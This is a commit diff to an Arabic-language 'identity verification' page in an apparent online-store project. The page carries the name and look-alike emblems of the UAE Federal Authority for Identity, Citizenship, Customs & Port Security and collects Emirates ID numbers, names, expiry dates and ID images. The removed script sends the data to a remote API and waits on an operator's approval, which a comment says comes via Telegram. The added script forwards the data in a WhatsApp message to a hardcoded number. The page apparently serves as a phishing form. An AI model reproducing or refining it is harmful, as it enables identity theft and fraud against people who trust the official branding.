

Before and after one commit to adhamamroalreqeb2008-netizen/a2-store, a plain HTML site: page verification.html in a window 390 px wide. Before the commit the page ends 1368 px from the top, so only its background shows below. Drawn offline with Linux system fonts and the light colour scheme.

Commit message:
Modify verification.html for RTL support and updates
Updated the verification page to support RTL layout and improved accessibility features.

```diff
--- a/verification.html
+++ b/verification.html
@@ -1,213 +1,481 @@
 <!DOCTYPE html>
-<html lang="ar" dir="ltr">
+<html lang="ar" dir="rtl">
 <head>
 <meta charset="utf-8">
 <meta name="viewport" content="width=device-width, initial-scale=1, viewport-fit=cover">
-<title>Jawaal – Identity Verification</title>
+<title>التحقق من الهوية – Jawaal</title>
 <link href="https://fonts.googleapis.com/css2?family=Cairo:wght@400;600;700&display=swap" rel="stylesheet">
 <style>
-:root{--bg:#fff;--page:#f7f8fa;--card:#fff;--text:#111827;--muted:#4b5563;--line:#d9dde3;--blue:#1146c9;--blue2:#0d3aa8;--input:#fff;--gray:#c9ccd1;--gold:#7a4a12;box-sizing:border-box;padding-top:env(safe-area-inset-top,0px);padding-bottom:env(safe-area-inset-bottom,0px)}
-@media (prefers-color-scheme:dark){:root:not([data-theme="light"]){--bg:#0f1218;--page:#0b0d12;--card:#151a23;--text:#f1f3f7;--muted:#a3abb8;--line:#2b3340;--input:#0f1218;--gray:#3a4250;--gold:#e0b36b;--blue:#4c7dff;--blue2:#3a68e6}}
-:root[data-theme="dark"]{--bg:#0f1218;--page:#0b0d12;--card:#151a23;--text:#f1f3f7;--muted:#a3abb8;--line:#2b3340;--input:#0f1218;--gray:#3a4250;--gold:#e0b36b;--blue:#4c7dff;--blue2:#3a68e6}}
+:root{
+  --bg:#ffffff;
+  --page:#f7f8fa;
+  --card:#ffffff;
+  --text:#111827;
+  --muted:#4b5563;
+  --line:#d9dde3;
+  --blue:#1146c9;
+  --blue2:#0d3aa8;
+  --input:#ffffff;
+  --gray:#c9ccd1;
+  --gold:#7a4a12;
+  --green:#16a34a;
+  padding-top:env(safe-area-inset-top,0px);
+  padding-bottom:env(safe-area-inset-bottom,0px);
+}
+@media (prefers-color-scheme:dark){
+  :root:not([data-theme="light"]){
+    --bg:#0f1218;
+    --page:#0b0d12;
+    --card:#151a23;
+    --text:#f1f3f7;
+    --muted:#a3abb8;
+    --line:#2b3340;
+    --input:#0f1218;
+    --gray:#3a4250;
+    --gold:#e0b36b;
+    --blue:#4c7dff;
+    --blue2:#3a68e6;
+    --green:#22c55e;
+  }
+}
 *{box-sizing:border-box}
-body{margin:0;background:var(--page);color:var(--text);font-family:"Cairo","Segoe UI",Tahoma,Arial,sans-serif}
-header{background:var(--bg);border-bottom:1px solid var(--line);display:flex;align-items:center;justify-content:space-between;padding:12px 40px;gap:16px}
-.logo{display:flex;align-items:center;gap:10px;font-size:28px;font-weight:700}
-nav{display:flex;gap:40px;font-size:17px}
-.icons{display:flex;gap:22px;align-items:center}
-.icons svg,.logo svg{stroke:currentColor;fill:none;stroke-width:2}
-.cart{position:relative}.cart b{position:absolute;top:-8px;right:-10px;background:var(--blue);color:#fff;border-radius:50%;width:20px;height:20px;font-size:12px;display:grid;place-items:center}
-.steps{display:flex;align-items:center;justify-content:center;gap:14px;padding:22px 12px;flex-wrap:wrap;font-size:19px}
-.step{display:flex;align-items:center;gap:10px}
-.dot{width:40px;height:40px;border-radius:50%;background:var(--blue);color:#fff;display:grid;place-items:center;font-weight:700}
-.dot.off{background:var(--gray)}
-.step.active{color:var(--blue);font-weight:600}.step.off{color:var(--muted)}
-.bar{width:110px;height:2px;background:var(--blue)}.bar.off{background:var(--line)}
-.card{max-width:1390px;margin:24px auto 40px;background:var(--card);border:1px solid var(--line);border-radius:16px;padding:26px 52px 40px}
-.top{display:flex;justify-content:space-between;align-items:flex-start;gap:20px}
-.auth{display:flex;align-items:center;gap:10px;font-size:12px;font-weight:600;line-height:1.35}
-.uae{display:flex;align-items:center;gap:10px;color:var(--gold);text-align:right;font-weight:600;line-height:1.4}
-.uae small{display:block;font-size:14px}
-.hero{text-align:center;margin-top:-22px}
-.hero h1{margin:6px 0 0;font-size:32px;line-height:1.3}
-.hero h2{margin:0;font-size:32px;font-weight:600;font-family:"Segoe UI",Arial,sans-serif}
-.hero p{margin:10px 0 0;color:var(--muted);font-size:18px}
-.hero p.en{margin-top:2px;font-size:17px;font-family:"Segoe UI",Arial,sans-serif}
-.form{max-width:1180px;margin:34px auto 0;border:1px solid var(--line);border-radius:14px;padding:18px 28px 38px}
-.form h3{margin:0;font-size:24px;line-height:1.25}
-.form h3 span{display:block;font-size:19px;font-family:"Segoe UI",Arial,sans-serif}
-.grid{display:grid;grid-template-columns:1fr 1fr;gap:22px 52px;margin-top:14px}
-.field label{display:block;font-size:15px;font-weight:700;line-height:1.3}
-.field label span{display:block;font-weight:400;color:var(--muted);font-size:15px;font-family:"Segoe UI",Arial,sans-serif}
-.input{display:flex;align-items:center;gap:14px;margin-top:8px;border:1.5px solid var(--line);border-radius:8px;background:var(--input);height:48px;padding:0 14px;color:var(--muted)}
-.input:focus-within{border-color:var(--blue);outline:2px solid color-mix(in srgb,var(--blue) 30%,transparent)}
-.input input{flex:1;border:0;background:transparent;font:inherit;font-size:16px;color:var(--text);outline:0;min-width:0;font-family:"Segoe UI",Arial,sans-serif}
-.input svg,.drop svg{stroke:currentColor;fill:none;stroke-width:1.8;flex:none}
-.drop{display:flex;align-items:center;justify-content:center;gap:22px;margin-top:8px;height:76px;border:1.5px dashed var(--line);border-radius:8px;cursor:pointer;color:var(--muted);font-family:"Segoe UI",Arial,sans-serif}
-.drop b{display:block;color:var(--text);font-weight:500;font-size:15px}.drop small{font-size:14px}
+body{
+  margin:0;
+  background:var(--page);
+  color:var(--text);
+  font-family:"Cairo","Segoe UI",Tahoma,Arial,sans-serif;
+}
+.card{
+  max-width:1180px;
+  margin:28px auto 40px;
+  background:var(--card);
+  border:1px solid var(--line);
+  border-radius:16px;
+  padding:28px 40px 40px;
+}
+.top{
+  display:flex;
+  justify-content:space-between;
+  align-items:center;
+  gap:20px;
+  flex-wrap:wrap;
+}
+.auth{
+  display:flex;
+  align-items:center;
+  gap:12px;
+  font-size:13px;
+  font-weight:700;
+  line-height:1.4;
+}
+.uae{
+  display:flex;
+  align-items:center;
+  gap:12px;
+  color:var(--gold);
+  text-align:right;
+  font-weight:700;
+  line-height:1.4;
+}
+.uae small{
+  display:block;
+  font-size:12px;
+  font-family:Arial,sans-serif;
+}
+.hero{
+  text-align:center;
+  margin:18px auto 26px;
+  max-width:720px;
+}
+.hero h1{
+  margin:10px 0 4px;
+  font-size:30px;
+  line-height:1.3;
+}
+.hero h2{
+  margin:0;
+  font-size:22px;
+  font-weight:600;
+  color:var(--muted);
+  font-family:"Segoe UI",Arial,sans-serif;
+}
+.hero p{
+  margin:10px 0 0;
+  color:var(--muted);
+  font-size:16px;
+  line-height:1.6;
+}
+.form{
+  border:1px solid var(--line);
+  border-radius:14px;
+  padding:22px 26px 32px;
+}
+.form h3{
+  margin:0 0 18px;
+  font-size:21px;
+  line-height:1.3;
+}
+.form h3 span{
+  display:block;
+  font-size:15px;
+  font-weight:500;
+  color:var(--muted);
+  font-family:"Segoe UI",Arial,sans-serif;
+}
+.grid{
+  display:grid;
+  grid-template-columns:1fr 1fr;
+  gap:20px 36px;
+}
+.field label{
+  display:block;
+  font-size:15px;
+  font-weight:700;
+  margin-bottom:8px;
+}
+.field label span{
+  display:block;
+  font-size:13px;
+  font-weight:400;
+  color:var(--muted);
+  font-family:"Segoe UI",Arial,sans-serif;
+}
+.input{
+  display:flex;
+  align-items:center;
+  gap:12px;
+  border:1.5px solid var(--line);
+  border-radius:10px;
+  background:var(--input);
+  height:48px;
+  padding:0 14px;
+  color:var(--muted);
+}
+.input:focus-within{
+  border-color:var(--blue);
+  outline:3px solid color-mix(in srgb,var(--blue) 25%,transparent);
+}
+.input input{
+  flex:1;
+  border:0;
+  background:transparent;
+  font:inherit;
+  font-size:15px;
+  color:var(--text);
+  outline:0;
+  min-width:0;
+}
+.input svg,.drop svg{
+  stroke:currentColor;
+  fill:none;
+  stroke-width:1.8;
+  flex:none;
+}
+.drop{
+  display:flex;
+  align-items:center;
+  justify-content:center;
+  gap:16px;
+  min-height:74px;
+  padding:10px 14px;
+  border:1.5px dashed var(--line);
+  border-radius:10px;
+  cursor:pointer;
+  color:var(--muted);
+  text-align:right;
+}
+.drop b{
+  display:block;
+  color:var(--text);
+  font-weight:600;
+  font-size:14px;
+}
+.drop small{
+  font-size:12px;
+  display:block;
+  margin-top:2px;
+}
 .drop input{display:none}
-.err{color:#c62828;font-size:13px;min-height:16px;margin-top:4px}
-.cta{display:flex;margin:30px auto 0;width:min(645px,100%);background:var(--blue);color:#fff;border:0;border-radius:6px;padding:12px;gap:18px;align-items:center;justify-content:center;font:inherit;font-size:19px;line-height:1.3;cursor:pointer}
+.err{
+  color:#dc2626;
+  font-size:13px;
+  min-height:18px;
+  margin-top:5px;
+  font-weight:600;
+}
+.accept-box{
+  margin-top:22px;
+  padding:14px 16px;
+  border:1px solid var(--line);
+  border-radius:10px;
+  background:color-mix(in srgb,var(--page) 70%,transparent);
+}
+.accept-label{
+  display:flex;
+  align-items:flex-start;
+  gap:10px;
+  cursor:pointer;
+  font-size:14.5px;
+  font-weight:600;
+  line-height:1.5;
+}
+.accept-label input[type="checkbox"]{
+  width:18px;
+  height:18px;
+  margin-top:2px;
+  accent-color:var(--blue);
+  cursor:pointer;
+  flex:none;
+}
+.cta{
+  display:flex;
+  margin:26px auto 0;
+  width:min(620px,100%);
+  background:var(--blue);
+  color:#fff;
+  border:0;
+  border-radius:10px;
+  padding:13px 20px;
+  gap:14px;
+  align-items:center;
+  justify-content:center;
+  font:inherit;
+  font-size:18px;
+  font-weight:700;
+  cursor:pointer;
+  transition:background 0.2s ease,transform 0.1s ease;
+}
 .cta:hover{background:var(--blue2)}
-.cta:focus-visible{outline:3px solid var(--text);outline-offset:2px}
-.cta span{display:block;font-family:"Segoe UI",Arial,sans-serif;font-size:18px}
-.cta svg{stroke:#fff;fill:none;stroke-width:1.8}
-.ok{display:none;margin:18px auto 0;max-width:645px;text-align:center;color:#1b7f3b;font-weight:600}
-@media(max-width:820px){header{padding:12px 16px}nav{display:none}.card{padding:20px 16px;margin:0 10px 30px}.top{flex-direction:column;align-items:center}.hero{margin-top:10px}.hero h1,.hero h2{font-size:26px}.grid{grid-template-columns:1fr}.form{padding:16px}.bar{width:30px}.steps{font-size:15px}}
+.cta:active{transform:scale(0.99)}
+.cta span{
+  display:block;
+  font-size:13px;
+  font-weight:500;
+  opacity:0.9;
+  font-family:"Segoe UI",Arial,sans-serif;
+}
+.cta svg{stroke:#fff;fill:none;stroke-width:2;flex:none}
+.done-box{
+  display:none;
+  text-align:center;
+  padding:42px 20px;
+}
+.done-box h3{
+  margin:10px 0 8px;
+  font-size:24px;
+  color:var(--green);
+}
+.done-box p{
+  margin:0 auto 22px;
+  max-width:520px;
+  color:var(--muted);
+  font-size:15px;
+  line-height:1.6;
+}
+.wa-btn{
+  display:inline-flex;
+  align-items:center;
+  justify-content:center;
+  gap:10px;
+  background:var(--green);
+  color:#fff;
+  text-decoration:none;
+  padding:13px 26px;
+  border-radius:10px;
+  font-size:17px;
+  font-weight:700;
+}
+@media(max-width:820px){
+  .card{padding:20px 16px;margin:14px 12px 28px}
+  .grid{grid-template-columns:1fr}
+  .form{padding:16px}
+  .hero h1{font-size:25px}
+}
 </style>
 </head>
 <body>
 <main class="card">
   <div class="top">
     <div class="auth">
-      <svg width="80" height="60" viewBox="0 0 80 60" fill="none"><path d="M4 8c20 4 40 14 56 34" stroke="#c4161c" stroke-width="3"/><path d="M10 6c24 0 44 14 60 22" stroke="#1b7f3b" stroke-width="3"/><path d="M14 40c16-18 40-22 60-14" stroke="#111" stroke-width="3"/></svg>
-      <div dir="rtl" style="text-align:right"><div style="font-size:14px">الهيئة الاتحادية للهوية والجنسية والجمارك وأمن المنافذ</div><div style="font-size:9px;font-family:Arial,sans-serif;direction:ltr;text-align:left">FEDERAL AUTHORITY FOR IDENTITY, CITIZENSHIP, CUSTOMS &amp; PORT SECURITY</div></div>
+      <svg width="72" height="54" viewBox="0 0 80 60" fill="none">
+        <path d="M4 8c20 4 40 14 56 34" stroke="#c4161c" stroke-width="3"/>
+        <path d="M10 6c24 0 44 14 60 22" stroke="#1b7f3b" stroke-width="3"/>
+        <path d="M14 40c16-18 40-22 60-14" stroke="#111" stroke-width="3"/>
+      </svg>
+      <div>
+        <div>الهيئة الاتحادية للهوية والجنسية والجمارك وأمن المنافذ</div>
+        <div style="font-size:10px;font-family:Arial,sans-serif;direction:ltr;text-align:left;color:var(--muted)">FEDERAL AUTHORITY FOR IDENTITY, CITIZENSHIP, CUSTOMS &amp; PORT SECURITY</div>
+      </div>
     </div>
     <div class="uae">
-      <div dir="rtl" style="text-align:right">الإمارات العربية المتحدة<small style="direction:ltr;font-family:Arial,sans-serif;text-align:right">UNITED ARAB EMIRATES</small></div>
-      <svg width="52" height="66" viewBox="0 0 52 66"><path d="M26 4c8 6 20 6 24 16-6 2-10 6-12 12l-12 4-12-4c-2-6-6-10-12-12C6 10 18 10 26 4z" fill="#8a6a2f"/><rect x="16" y="34" width="20" height="24" rx="4" fill="#b0262b"/><rect x="16" y="46" width="20" height="6" fill="#1b7f3b"/></svg>
+      <div>
+        الإمارات العربية المتحدة
+        <small>UNITED ARAB EMIRATES</small>
+      </div>
+      <svg width="48" height="60" viewBox="0 0 52 66">
+        <path d="M26 4c8 6 20 6 24 16-6 2-10 6-12 12l-12 4-12-4c-2-6-6-10-12-12C6 10 18 10 26 4z" fill="#8a6a2f"/>
+        <rect x="16" y="34" width="20" height="24" rx="4" fill="#b0262b"/>
+        <rect x="16" y="46" width="20" height="6" fill="#1b7f3b"/>
+      </svg>
     </div>
   </div>
 
   <section class="hero">
-    <svg width="68" height="76" viewBox="0 0 68 76"><path d="M34 2l30 10v22c0 18-12 33-30 40C16 67 4 52 4 34V12z" fill="#2f6df0"/><circle cx="34" cy="30" r="8" fill="#fff"/><path d="M20 52c2-10 8-13 14-13s12 3 14 13z" fill="#fff"/></svg>
+    <svg width="64" height="72" viewBox="0 0 68 76" style="margin:auto;display:block">
+      <path d="M34 2l30 10v22c0 18-12 33-30 40C16 67 4 52 4 34V12z" fill="#2f6df0"/>
+      <circle cx="34" cy="30" r="8" fill="#fff"/>
+      <path d="M20 52c2-10 8-13 14-13s12 3 14 13z" fill="#fff"/>
+    </svg>
     <h1>التحقق من الهوية</h1>
     <h2>Verify Your Identity</h2>
-    <p dir="rtl">لإتمام عملية الشراء بالتقسيط، يرجى التحقق من هويتك الإماراتية.</p>
-    <p class="en">To complete your purchase on installment, please verify your Emirates ID.</p>
+    <p>أدخل بيانات الهوية واضغط على القبول والمتابعة ليتم تحويلك مباشرة إلى الواتساب.</p>
   </section>
 
   <form class="form" id="f" novalidate>
-    <h3>إدخال بيانات الهوية الإماراتية<span>Enter Emirates ID Details</span></h3>
+    <h3>إدخال بيانات الهوية<span>Enter Identity Details</span></h3>
     <div class="grid">
       <div class="field">
-        <label for="name" dir="rtl" style="text-align:left">الاسم الكامل (كما في الهوية)<span>Full Name (as on Emirates ID)</span></label>
-        <div class="input"><svg width="26" height="26" viewBox="0 0 24 24"><circle cx="12" cy="8" r="4"/><path d="M4 21c1-5 4-7 8-7s7 2 8 7"/></svg><input id="name" placeholder="Enter your full name" autocomplete="name"></div>
+        <label for="name">الاسم الكامل<span>Full Name</span></label>
+        <div class="input">
+          <svg width="24" height="24" viewBox="0 0 24 24"><circle cx="12" cy="8" r="4"/><path d="M4 21c1-5 4-7 8-7s7 2 8 7"/></svg>
+          <input id="name" placeholder="اكتب الاسم الكامل" autocomplete="name">
+        </div>
         <div class="err" id="e-name"></div>
       </div>
+
       <div class="field">
-        <label for="eid" dir="rtl" style="text-align:left">رقم الهوية الإماراتية<span>Emirates ID Number</span></label>
-        <div class="input"><svg width="26" height="26" viewBox="0 0 24 24"><rect x="2" y="5" width="20" height="14" rx="2"/><circle cx="8" cy="11" r="2"/><path d="M13 10h6M13 14h6M5 16c1-2 5-2 6 0"/></svg><input id="eid" placeholder="784-XXXX-XXXXXXX-X" inputmode="numeric" maxlength="18" dir="ltr"></div>
+        <label for="eid">رقم الهوية الإماراتية<span>Emirates ID Number</span></label>
+        <div class="input" dir="ltr">
+          <svg width="24" height="24" viewBox="0 0 24 24"><rect x="2" y="5" width="20" height="14" rx="2"/><circle cx="8" cy="11" r="2"/><path d="M13 10h6M13 14h6M5 16c1-2 5-2 6 0"/></svg>
+          <input id="eid" placeholder="784-XXXX-XXXXXXX-X" inputmode="numeric" maxlength="18" style="text-align:left">
+        </div>
         <div class="err" id="e-eid"></div>
       </div>
+
       <div class="field">
-        <label for="exp" dir="rtl" style="text-align:left">تاريخ انتهاء الهوية<span>Emirates ID Expiry Date</span></label>
-        <div class="input"><svg width="26" height="26" viewBox="0 0 24 24"><rect x="3" y="5" width="18" height="16" rx="2"/><path d="M3 10h18M8 3v4M16 3v4"/></svg><input id="exp" placeholder="DD / MM / YYYY" inputmode="numeric" maxlength="14"></div>
+        <label for="exp">تاريخ انتهاء الهوية<span>Expiry Date</span></label>
+        <div class="input" dir="ltr">
+          <svg width="24" height="24" viewBox="0 0 24 24"><rect x="3" y="5" width="18" height="16" rx="2"/><path d="M3 10h18M8 3v4M16 3v4"/></svg>
+          <input id="exp" placeholder="DD / MM / YYYY" inputmode="numeric" maxlength="14" style="text-align:left">
+        </div>
         <div class="err" id="e-exp"></div>
       </div>
+
       <div class="field">
-        <label dir="rtl" style="text-align:left">رفع صورة الهوية (اختياري)<span>Upload Emirates ID (Optional)</span></label>
-        <label class="drop" for="file"><svg width="38" height="38" viewBox="0 0 24 24"><path d="M12 16V4M7 9l5-5 5 5M4 16v4h16v-4"/></svg><span><b>Upload Front of Emirates ID</b><small id="fn">JPG, PNG or PDF (Max 5 MB)</small></span><input id="file" type="file" accept=".jpg,.jpeg,.png,.pdf"></label>
+        <label>صورة الهوية (اختياري)<span>Upload ID (Optional)</span></label>
+        <label class="drop" for="file">
+          <svg width="34" height="34" viewBox="0 0 24 24"><path d="M12 16V4M7 9l5-5 5 5M4 16v4h16v-4"/></svg>
+          <div>
+            <b id="fn">اختر ملف الهوية</b>
+            <small>JPG, PNG أو PDF (حد أقصى 5 MB)</small>
+          </div>
+          <input id="file" type="file" accept=".jpg,.jpeg,.png,.pdf">
+        </label>
         <div class="err" id="e-file"></div>
       </div>
     </div>
-    <button class="cta" type="submit"><svg width="38" height="38" viewBox="0 0 24 24"><path d="M12 2l8 3v6c0 5-3.5 9-8 11-4.5-2-8-6-8-11V5z"/><path d="M8.5 12l2.5 2.5 4.5-5"/></svg><div>تحقق ومتابعة<span>Verify &amp; Continue</span></div></button>
-    <div class="ok" id="ok" role="status">تم التحقق بنجاح · Verified successfully</div>
+
+    <div class="accept-box">
+      <label class="accept-label">
+        <input type="checkbox" id="acceptCheck">
+        <span>أوافق وأؤكد صحة البيانات المدخلة وأرغب بالمتابعة إلى الواتساب.</span>
+      </label>
+      <div class="err" id="e-accept"></div>
+    </div>
+
+    <button class="cta" type="submit">
+      <svg width="30" height="30" viewBox="0 0 24 24">
+        <path d="M12 2l8 3v6c0 5-3.5 9-8 11-4.5-2-8-6-8-11V5z"/>
+        <path d="M8.5 12l2.5 2.5 4.5-5"/>
+      </svg>
+      <div>قبول والمتابعة إلى الواتساب<span>Accept &amp; Go to WhatsApp</span></div>
+    </button>
   </form>
+
+  <div class="done-box" id="doneBox">
+    <div style="font-size:48px">✅</div>
+    <h3>تم التحقق والقبول بنجاح</h3>
+    <p>جاري فتح الواتساب الآن... إذا لم يفتح تلقائياً، اضغط على الزر بالأسفل.</p>
+    <a class="wa-btn" id="waDirectLink" href="#" target="_blank" rel="noopener">💬 فتح محادثة الواتساب</a>
+  </div>
 </main>
 
 <script>
-const $=id=>document.getElementById(id);
+const WHATSAPP_NUMBER = "971555784831";
 
-// تنسيق رقم الهوية تلقائياً
-$('eid').addEventListener('input',e=>{
-  let d=e.target.value.replace(/\D/g,'').slice(0,15);
-  let p=[d.slice(0,3),d.slice(3,7),d.slice(7,14),d.slice(14,15)].filter(Boolean);
-  e.target.value=p.join('-');
+const $ = id => document.getElementById(id);
+
+$('eid').addEventListener('input', e => {
+  const d = e.target.value.replace(/\D/g, '').slice(0, 15);
+  const p = [d.slice(0, 3), d.slice(3, 7), d.slice(7, 14), d.slice(14, 15)].filter(Boolean);
+  e.target.value = p.join('-');
 });
 
-// تنسيق تاريخ الانتهاء تلقائياً
-$('exp').addEventListener('input',e=>{
-  let d=e.target.value.replace(/\D/g,'').slice(0,8);
-  let p=[d.slice(0,2),d.slice(2,4),d.slice(4,8)].filter(Boolean);
-  e.target.value=p.join(' / ');
+$('exp').addEventListener('input', e => {
+  const d = e.target.value.replace(/\D/g, '').slice(0, 8);
+  const p = [d.slice(0, 2), d.slice(2, 4), d.slice(4, 8)].filter(Boolean);
+  e.target.value = p.join(' / ');
 });
 
-// التحقق من رفع الملف
-$('file').addEventListener('change',e=>{
-  const f=e.target.files[0];
-  $('e-file').textContent='';
-  if(!f)return;
-  if(f.size>5*1024*1024){
-    $('e-file').textContent='File is larger than 5 MB · الملف أكبر من 5 ميجابايت';
-    e.target.value='';
-    $('fn').textContent='JPG, PNG or PDF (Max 5 MB)';
+$('file').addEventListener('change', e => {
+  const f = e.target.files[0];
+  $('e-file').textContent = '';
+  if (!f) return;
+  if (f.size > 5 * 1024 * 1024) {
+    $('e-file').textContent = 'حجم الملف أكبر من 5 ميجابايت';
+    e.target.value = '';
+    $('fn').textContent = 'اختر ملف الهوية';
     return;
   }
-  $('fn').textContent=f.name;
+  $('fn').textContent = f.name;
 });
 
-// عند الضغط على زر تحقق ومتابعة
-$('f').addEventListener('submit', async e => {
+$('f').addEventListener('submit', e => {
   e.preventDefault();
   let ok = true;
-  const set = (id, m) => { $('e-' + id).textContent = m; if (m) ok = false; };
+  const setErr = (id, msg) => {
+    $('e-' + id).textContent = msg;
+    if (msg) ok = false;
+  };
 
-  set('name', $('name').value.trim().length < 3 ? 'Enter your full name · أدخل اسمك الكامل' : '');
-  set('eid', /^784-\d{4}-\d{7}-\d$/.test($('eid').value) ? '' : 'Use the format 784-XXXX-XXXXXXX-X · صيغة غير صحيحة');
+  const fullName = $('name').value.trim();
+  const eidVal = $('eid').value.trim();
+  const expVal = $('exp').value.trim();
+  const accepted = $('acceptCheck').checked;
+  const fileName = $('file').files[0] ? $('file').files[0].name : 'غير مرفق';
 
-  const m = $('exp').value.match(/^(\d{2}) \/ (\d{2}) \/ (\d{4})$/);
-  let dateOk = false;
-  if (m) {
-    const day = parseInt(m[1], 10);
-    const month = parseInt(m[2], 10);
-    const year = parseInt(m[3], 10);
-    if (year >= 1940 && year <= 2040 && month >= 1 && month <= 12 && day >= 1 && day <= 31) {
-      dateOk = true;
+  setErr('name', fullName.length < 3 ? 'يرجى إدخال الاسم الكامل' : '');
+  setErr('eid', /^784-\d{4}-\d{7}-\d$/.test(eidVal) ? '' : 'يرجى إدخال رقم الهوية بالصيغة 784-XXXX-XXXXXXX-X');
+
+  const dateMatch = expVal.match(/^(\d{2}) \/ (\d{2}) \/ (\d{4})$/);
+  let validDate = false;
+  if (dateMatch) {
+    const day = parseInt(dateMatch[1], 10);
+    const month = parseInt(dateMatch[2], 10);
+    const year = parseInt(dateMatch[3], 10);
+    if (year >= 1950 && year <= 2045 && month >= 1 && month <= 12 && day >= 1 && day <= 31) {
+      validDate = true;
     }
   }
-  set('exp', dateOk ? '' : 'Enter a valid date (DD / MM / YYYY) · أدخل تاريخًا صحيحًا');
+  setErr('exp', validDate ? '' : 'يرجى إدخال تاريخ انتهاء صحيح (DD / MM / YYYY)');
+  setErr('accept', accepted ? '' : 'يرجى الضغط على مربع القبول للمتابعة');
 
-  if (ok) {
-    const userId = 'user_' + Date.now();
-    const payload = {
-      "user_id": userId,
-      "الاسم_الكامل": $('name').value.trim(),
-      "رقم_الهوية": $('eid').value,
-      "تاريخ_الانتهاء": $('exp').value
-    };
+  if (!ok) return;
 
-    // إخفاء النموذج وإظهار رسالة الانتظار
-    document.querySelector('.form').style.display = 'none';
-    const waitDiv = document.createElement('div');
-    waitDiv.id = 'waiting-box';
-    waitDiv.style.cssText = 'text-align:center; padding:40px; font-size:18px; font-weight:600;';
-    waitDiv.innerHTML = '⏳ جاري التحقق من بيانات الهوية وتأكيد الطلب...<br><span style="font-size:14px; color:var(--muted)">يرجى عدم إغلاق الصفحة</span>';
-    document.querySelector('.card').appendChild(waitDiv);
+  const messageText =
+    `مرحباً، تم التحقق والموافقة على البيانات:\n` +
+    `• الاسم الكامل: ${fullName}\n` +
+    `• رقم الهوية: ${eidVal}\n` +
+    `• تاريخ الانتهاء: ${expVal}\n` +
+    `• ملف الهوية: ${fileName}`;
 
-    try {
-      // إرسال البيانات إلى ملف الإرسال (send.js) على مشروعك الحالي
-      await fetch("https://a2-store-red.vercel.app/api/send", {
-        method: "POST",
-        headers: { "Content-Type": "application/json" },
-        body: JSON.stringify(payload)
-      });
+  const waUrl = `https://wa.me/${WHATSAPP_NUMBER}?text=${encodeURIComponent(messageText)}`;
 
-      // حلقة الفحص عبر ملف (check.js) لمعرفة متى ستوافق من تليجرام
-      const checkInterval = setInterval(async () => {
-        try {
-          const res = await fetch(`https://a2-store-red.vercel.app/api/check?user_id=${userId}`);
-          const data = await res.json();
+  $('f').style.display = 'none';
+  $('doneBox').style.display = 'block';
+  $('waDirectLink').href = waUrl;
 
-          if (data.status === 'approved') {
-            clearInterval(checkInterval);
-            waitDiv.innerHTML = '✅ تم تأكيد الهوية بنجاح! جاري تحويلك لصفحة بيانات الشحن...';
-            setTimeout(() => {
-              window.location.href = 'details.html';
-            }, 1000);
-          } else if (data.status === 'rejected') {
-            clearInterval(checkInterval);
-            alert('تم رفض طلب التحقق من قبل الإدارة.');
-            location.reload();
-          }
-        } catch (err) {}
-      }, 3000);
-
-    } catch(err) {
-      alert('حدث خطأ في الاتصال');
-      location.reload();
-    }
-  }
+  window.location.href = waUrl;
 });
 </script>
 </body>
```
